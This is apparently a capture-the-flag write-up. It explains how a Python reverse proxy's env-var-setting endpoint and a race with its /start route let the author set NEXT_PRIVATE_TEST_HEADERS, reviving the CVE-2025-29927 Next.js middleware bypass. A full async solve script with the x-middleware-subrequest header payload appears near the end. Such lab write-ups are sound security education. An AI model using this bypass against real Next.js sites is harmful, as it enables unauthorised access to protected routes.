


## TL;DR
The `proxy/app.py` server is a simple reverse proxy that start up a `NextJS` app instance and forwards requests to it. This proxy is vulnerable because it allows setting an environment variable, but with length constraints and without controlling the value. This can be abused to set the `NEXT_PRIVATE_TEST_HEADERS` env var on the `NextJS` app and make the `CVE-2025-29927` exploit possible again.


## Description
> I heard about some next.js cve issues recently, so I decided to provide next.js on a safe version for anyone!


## Challenge Scenario
Another week goes by, and again NextJS can't go 5 seconds without humiliating itself. Since the public disclosure of CVE-2025-29927, NextJS has caught the attention of many security researchers from all over the world, and in particular from CTF players. When I saw that this weekend too there was a challenge on NextJS I could NOT skip it, I needed a good laugh.  

  

It was one of the first challenges I looked into, and after a few hours we got first blood :)  


At the end of the event, it was the least solved web challenge along with `web/musicplayer` (which we also solved :p) so here I am writing a writeup for it.

## Challenge Scenario (for real this time)
The challenge setup is pretty simple, there's a `proxy/app.py` server that acts as instancer and reverse proxy for the NextJS app that can be launched via the `/start` endpoint. The NextJS app is essentially just a template that hardcodes the flag in the html at `/admin/flag`, but with the following middleware:

**middleware.ts**
```ts
import { NextResponse } from 'next/server'
import type { NextRequest } from 'next/server'

// don't want just anyone getting the flag ⭐️
export function middleware(request: NextRequest) {
  return NextResponse.redirect(new URL('/', request.url));
}

export const config = {
  matcher: '/admin/:path*'
}
```

As simple as it gets, the middleware just redirects any request to `/admin/*` back to the homepage. Or I'd say, how it should have been (right nextjs?). Clearly the goal here is to bypass the middleware to get the flag, which instantly made me think of CVE-2025-29927. 


Any route-based bypass could also have worked obviously, it may happen with some `matcher` misconfigurations for example. Something that could also work is any type of path normalization issue that is then used for an internal rewrite (NextResponse.rewrite).  
Interestingly enough, while I was fuzzing for interesting env vars, I found the `skipMiddlewareUrlNormalize` config (tracked by the [`__NEXT_NO_MIDDLEWARE_URL_NORMALIZE` env var at build time](https://github.com/vercel/next.js/blob/f0f0e4bf5aa67bfed0b7bbf87a2ebe75b02a54bb/packages/next/src/build/webpack/plugins/define-env-plugin.ts#L234-L235)), that [disables URL normalizations in middleware](https://nextjs.org/docs/app/building-your-application/routing/middleware#advanced-middleware-flags)... aand why is that interesting? NextJS automatically generates internal JSON endpoints for SSR pages, e.g. `/_next/data/<build-id>/admin/flag.json` for `/admin/flag` endpoint. These endpoints contain only the props needed for hydration or ISR, to avoid sending the full HTML each render. By default, the router rewrites a request like `/_next/data/<id>/admin/flag.json` to `/admin/flag` before it reaches middleware. Setting `skipMiddlewareUrlNormalize` disables that rewrite, so the JSON route no longer matches the `/admin/:path*` matcher and slips past the middleware.


The challenge was running a hardcoded version of NextJS 15.2.3, meaning that the CVE-2025-29927 was not directly exploitable anymore.  
Fun fact: After CVE-2025-29927 was patched, I decided to take a look on how they implemented the fix. Initially I expected that they had completely revisited the middleware request handling model (because there's no way that's a good design model). Then I remembered that we are talking about NextJS and that in the meantime the vulnerability had gone around the world. It certainly couldn't be a quality patch to say the least.
In fact, this was the patch: https://github.com/vercel/next.js/commit/52a078da3884efe6501613c7834a3d02a91676d2

The commit message alone doesn't inspire much confidence, it looks almost like a routine dev fix and not a critical security patch. At that time I decided to take a closer look and so I found myself reading the NextJS source code at 3 AM of a random Sunday.  
In fact, I quickly realized that the "patch" wasn't actually a fix, but rather a workaround: `x-middleware-subrequest` was still allowed from ingress requests, but now an 8-byte cryptographically random `middlewareSubrequestId` is generated and the header gets dropped if a `x-middleware-subrequest-id` doesn't match that secret.  
This means that the vulnerability is still there, but now you need to guess or leak the `middlewareSubrequestId` in order to exploit it.

Here's me trolling with @salvatore.abello about that patch:


WELL... guess what happens a few days later?   


Researchers found a way to leak the `middlewareSubrequestId` via external fetch requests in middleware and use it in `x-middleware-subrequest` to bypass middleware again.
So, yeah, I was right and I basically missed out on an easy CVE + bounty 😭  

Anyway, I definitely learned something these days about NextJS internals, and that was the reason why I solved this challenge, so let's get back to it.

Surely enough, we didn't have to find another NextJS n-day about middleware bypasses, even though the NextJS version wasn't the latest at the time of the event. Maybe it had something to do with that ugly patch just after 15.2.2. I kept that in mind and started looking into `proxy/app.py`.  
This endpoint immediately caught my attention:

```python
@app.route('/csrf', methods=['POST'])
def csrf():
    token = request.form.get('token', token_hex(16))[:30].strip().encode("utf-8")
    if len(token) < 20:
        return Response('Insecure CSRF Token.', status=500)
    try:
        clear_csrf()
        environ[token.decode("utf-8", errors="ignore")] = CSRF_TOKEN
        token = int(token, 16)
        return Response('Set valid CSRF Token.', status=200)
    except ValueError:
        return Response('CSRF Token must be hex.', status=500)
```

The endpoints looks intended to set a CSRF token as env var to pass it later to the NextJS app, but the implementation is pretty bad. What actually happens here is that we can set any env var with a minimum length of 20 chars and a maximum of 30. Furthermore, we don't control its value, since the value is the random hex token `CSRF_TOKEN` generated by `token_hex(16)`, at the beginning of `app.py`.  
What we can do, however, is set any env var of that length constraint that will be interpreted as on-off switch.  

Since the Next.js app is started using `subprocess.run`, it inherits the environment variables from the `proxy/app.py` process. This means any environment variable set via the `/csrf` endpoint will be propagated to the Next.js app's runtime environment when `npm run start` (and thus `next start`) is executed.

The NextJS app can be started via the `/start` endpoint, but here one thing can be problematic:
```python
@app.route('/start', methods=['POST'])
def start():
    clear_csrf()
    environ['CSRF_TOKEN'] = CSRF_TOKEN
    global STARTED
    if STARTED:
        return Response("Start already initiated", status=428)
    with start_lock:
        if STARTED:
            return Response("Start already initiated", status=428)
        STARTED = True
        try:
            run(['sleep', '3'], check=False) # make sure lock is aquired
            print(f"Starting Next.js instance with environ: {environ}")
            run(['./start.sh'], cwd='../next', check=True)
            return Response("Starting 👍...", status=200)
        except CalledProcessError as e:
            return Response(f"Start Error: {str(e)}", status=500)
        except Exception as e:
            return Response(f"Unexpected Error: {str(e)}", status=500)
```

As we can see, at the beginning of the function, the `clear_csrf()` function is called, which clears any env var whose value matches the `CSRF_TOKEN` value. Remember that we don't control the value of the env vars set via the `/csrf` endpoint, and that value is exactly `CSRF_TOKEN`. This effectively clears any env var we set **before** calling the `/start` endpoint.  
But wait, that's the point! we can set the env var **after** calling the `/start` endpoint, and the `clear_csrf()` function execution, but we need to make sure that the env var is set before the `start.sh` command launches the NextJS app.  
This results in a race condition between the `/csrf` and `/start` endpoints, but that's actually trivial since the code is running `sleep 3` before starting the NextJS app, giving us more than enough race window to set the env var.

Now, we needed to find an env var that matches length constraints that can cause some interesting behavior.


## Solution
Based on the previous experience I immediately knew which components of the NextJS source code to look at. Indeed, the first thing I did was to look inside `next/src/server/lib/server-ipc/utils.ts`, where the `INTERNAL_HEADERS` blacklist is defined. This blacklist is then used to filter out ingress request headers via the `filterInternalHeaders` function, where the CVE-2025-29927 patch was made. 

https://github.com/vercel/next.js/blob/v15.2.3/packages/next/src/server/lib/server-ipc/utils.ts#L40-L72

```ts
// These are headers that are only used internally and should
// not be honored from the external request
const INTERNAL_HEADERS = [
  'x-middleware-rewrite',
  'x-middleware-redirect',
  'x-middleware-set-cookie',
  'x-middleware-skip',
  'x-middleware-override-headers',
  'x-middleware-next',
  'x-now-route-matches',
  'x-matched-path',
]

export const filterInternalHeaders = (
  headers: Record<string, undefined | string | string[]>
) => {
  for (const header in headers) {
    if (INTERNAL_HEADERS.includes(header)) {
      delete headers[header]
    }

    // If this request didn't origin from this session we filter
    // out the "x-middleware-subrequest" header so we don't skip
    // middleware incorrectly
    if (
      header === 'x-middleware-subrequest' &&
      headers['x-middleware-subrequest-id'] !==
        (globalThis as any)[Symbol.for('@next/middleware-subrequest-id')]
    ) {
      delete headers['x-middleware-subrequest']
    }
  }
}
```

I then searched for all references to `filterInternalHeaders` function, and it appeared to be used only in `next/server/lib/router-server.ts`, where the request handler entrypoint is defined. And the following lines surely caught my attention:

https://github.com/vercel/next.js/blob/v15.2.3/packages/next/src/server/lib/router-server.ts#L184-L188

```ts
  const requestHandlerImpl: WorkerRequestHandler = async (req, res) => {
    // internal headers should not be honored by the request handler
    if (!process.env.NEXT_PRIVATE_TEST_HEADERS) {
      filterInternalHeaders(req.headers)
    }
    [...]
```

`NEXT_PRIVATE_TEST_HEADERS` was acting as an on-off switch to bypass the `filterInternalHeaders` function!  
With `NEXT_PRIVATE_TEST_HEADERS` set, `x-middleware-subrequest` is no longer deleted internally by NextJS, even without the `x-middleware-subrequest-id` header, meaning it's CVE-2025-29927 all over again!  
`NEXT_PRIVATE_TEST_HEADERS` is probably just used for unit testing purposes, but that was exactly what we needed to solve the challenge.  

At this point, it was just a matter of putting everything together and win!  
Here's my final solve script:

**exploit.py**
```python
import asyncio
import httpx

CHALL_URL = "http://localhost:8003"

async def start_next(client):
    r = await client.post(f"{CHALL_URL}/start")
    r.raise_for_status()
    return r.text

async def set_env(client, env: str):
    r = await client.post(f"{CHALL_URL}/csrf", data={"token": env})
    if r.status_code == 500:
        # it's fine, env var was set anyway
        pass
    return r.text

async def get_flag(client):
    headers = {
        #"x-nextjs-data": "1",
        "x-middleware-subrequest": "src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"
    }
    r = await client.get(f"{CHALL_URL}/admin/flag", headers=headers)
    return (r.status_code, r.text)

async def main():
    async with httpx.AsyncClient(timeout=None) as client:
        starter = asyncio.create_task(start_next(client))
        await asyncio.sleep(1) # mini race to set env var
        print(await set_env(client, "NEXT_PRIVATE_TEST_HEADERS"))
        print(await starter)
        await asyncio.sleep(1) # wait for the nextjs app to start
        _, html = await get_flag(client)
        if "fake{" in html:
            print("🐴🐴🐴🐴")
            #print(html)
        
if __name__ == "__main__":
    asyncio.run(main())
```

Props to my teammate @witer33 for solving the challenge with me and securing first blood 🐴

> `bctf{weird_proxy_set_env_bypass_fix_230c35fd62e384ed65f83abd35b4aac6}`